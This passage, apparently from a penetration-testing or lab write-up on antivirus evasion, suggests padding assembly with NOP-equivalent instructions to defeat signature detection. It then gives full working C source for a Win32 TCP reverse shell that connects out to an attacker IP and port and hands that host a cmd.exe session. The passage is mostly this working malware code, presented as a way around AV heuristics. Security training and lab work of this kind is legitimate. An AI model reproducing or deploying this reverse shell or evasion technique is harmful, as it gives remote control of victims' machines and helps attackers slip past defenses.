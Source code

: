 Now this assembly can be modified by inserting NOPs like the following in the code to throw off signature detection at runtime:

- `nop`
- `mov eax, eax`
- `push eax` & `pop eax`

However, in this case, that still isn't enough... Next is to try "custom" malware. This means writing custom assembly (time-consuming) or cross-compiling C code that gives a reverse shell. The reason this can bypass AV is that it does not use common tools like `msfvenom` so it bypasses heuristic detection statically and dynamically. Here is a basic Win32 TCP reverse shell that spawns `cmd.exe`:

```c
/* Win32 TCP reverse cmd.exe shell
 * References:
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock/nf-winsock-wsastartup
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsasocketa
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock/ns-winsock-sockaddr_in
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-inet_addr
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-htons
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsaconnect
 * https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa
 * https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa
 * https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread
 * https://docs.microsoft.com/en-us/previous-versions/windows/desktop/legacy/aa366877(v=vs.85)
 */
#define WIN32_LEAN_AND_MEAN

#include <windows.h>
#include <winsock2.h>

#pragma comment(lib, "ws2_32.lib")

#define TARGET_IP   "10.10.14.17"
#define TARGET_PORT 6969

void main(void) {
  SOCKET s;
  WSADATA wsa;
  STARTUPINFO si;
  struct sockaddr_in sa;
  PROCESS_INFORMATION pi;

  WSAStartup(MAKEWORD(2,2), &wsa);
  s = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
  sa.sin_family = AF_INET;
  sa.sin_addr.s_addr = inet_addr(TARGET_IP);
  sa.sin_port = htons(TARGET_PORT);
  WSAConnect(s, (struct sockaddr *)&sa, sizeof(sa), NULL, NULL, NULL, NULL);
  SecureZeroMemory(&si, sizeof(si));
  si.cb = sizeof(si);
  si.dwFlags = STARTF_USESTDHANDLES;
  si.hStdInput = (HANDLE)s;
  si.hStdOutput = (HANDLE)s;
  si.hStdError = (HANDLE)s;
  CreateProcessA(NULL, "cmd", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);
}
```
